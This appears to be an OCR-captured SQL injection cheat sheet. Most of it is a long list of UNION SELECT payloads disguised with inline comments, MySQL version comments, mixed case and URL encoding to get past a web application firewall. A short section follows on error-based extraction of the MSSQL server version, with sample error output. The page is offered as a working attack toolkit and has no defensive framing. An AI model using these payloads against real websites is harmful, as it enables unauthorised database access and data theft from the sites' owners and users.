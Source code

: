 ```http://domain.com/index.php?id=1```  
    http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union /*!50000%53elect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
    http://domain.com/index.php?id=1 /*!union*/+/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 0%a0union%a0select%09 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -
    http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union+sel%0bect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union(select(1),2,3)-- -  
    http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union%23aa%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1/**/union/*!50000select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*union*/union/*select*/select+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4;%00-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4+--+-  
    http://domain.com/index.php?id=1 And False Union Select 1,2,3,4+--+-  
    

We bypassed the WAF and found that the 3nd column has the information.

## Dumping database (Boolean string)

```http://domain.com/index.php?id=1'and 1=convert(int,@@version)--```  
```http://domain.com/index.php?id=1'and 1=cast(@@version as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: COnversion failed when converting the nvarchar value "**Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)**" to data type int. (severity 16 in D:\something\web\STD\...\id.php on line...
```
